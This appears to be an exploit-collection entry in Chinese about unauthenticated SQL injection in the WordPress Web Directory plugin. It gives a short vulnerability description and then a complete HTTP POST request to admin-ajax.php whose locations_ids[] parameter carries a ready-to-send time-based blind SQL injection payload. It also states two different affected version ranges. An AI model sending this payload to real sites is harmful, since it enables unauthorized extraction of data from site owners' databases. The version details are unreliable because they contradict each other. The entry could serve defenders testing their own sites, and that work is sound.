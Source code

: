 **漏洞描述：**

WordPress 的 Web Directory 免费插件在 1.6.9 及之前的所有版本中都容易受到 SQL 注入攻击，因为对用户提供的参数转义不充分，并且对现有 SQL 查询缺乏充分的准备。这使得未经身份验证的攻击者可以将额外的 SQL 查询附加到现有的查询中，这些查询可用于从数据库中提取敏感信息。

**影响版本：**

WebDirectory <= 1.7.0

**Payload：**

```yaml
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 95

action=w2dc_get_map_marker_info&locations_ids[]=(select+if(1=1,sleep(5),0)+from+(select+1)x)
```

---
